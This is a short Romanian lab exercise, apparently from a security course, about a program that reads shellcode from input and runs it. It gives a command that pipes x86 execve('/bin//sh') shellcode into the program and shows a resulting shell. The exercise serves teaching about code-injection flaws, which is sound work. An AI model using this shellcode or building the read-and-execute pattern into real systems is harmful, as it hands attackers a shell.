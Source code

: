 # Shellcode input

Similar cu exercițiul anterior, exercițiul curent nu va mai avea inițializată variabila `shellcode`, ci o va citi ca input.

Shellcode-ul este fix același ca la exercițiul anterior.

Citirea codului `assembly` de la tastatură și execuția lui sunt considerate vulnerabilități critice.
Nu uitați acest lucru.

Pentru a exploata vulnerabilitatea, folosiți:

``` shell
cat <(echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80") - | ./shellcode-input
```

Rezultatul ar trebui să fie:

``` shell
$ cat <(echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80") - | ./shellcode-input
whoami
kali
```
